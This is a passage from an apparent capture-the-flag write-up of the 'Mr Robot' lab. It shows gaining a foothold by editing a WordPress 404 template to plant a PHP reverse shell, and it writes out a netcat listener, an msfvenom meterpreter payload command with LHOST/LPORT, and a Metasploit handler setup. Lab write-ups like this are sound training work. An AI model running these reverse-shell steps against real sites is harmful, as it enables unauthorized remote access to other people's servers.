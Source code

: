 Using the credentials we found, we log in and are presented with Elliot's WordPress dashboard. After looking around, we see that we have access to a theme editor.

<center>

![b012d5df19bf44bae95653fc177520dc.png](/Mr Robot CTF/_resources/b012d5df19bf44bae95653fc177520dc-1.png)

![adb31d6238f4c3cc826c5740b82fdf54.png](/Mr Robot CTF/_resources/adb31d6238f4c3cc826c5740b82fdf54-1.png)

</center>

We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. (`rlwrap` is used to get a slightly better shell.) At this point, we can generate a php reverse shell payload using msfvenom: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw -o payload.php`. We would then set up our handler with Metasploit with `exploit/multi/handler`
and with payload `php/meterpreter/reverse_tcp`.

Alternatively, we can use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to `10.10.89.74/404.php`. We see that this gives a reverse shell, and so we have an initial foothold.

<center>

![9c52f3524f4ec6a5d6cf6c6ee75dea9e.png](/Mr Robot CTF/_resources/9c52f3524f4ec6a5d6cf6c6ee75dea9e-1.png)

</center>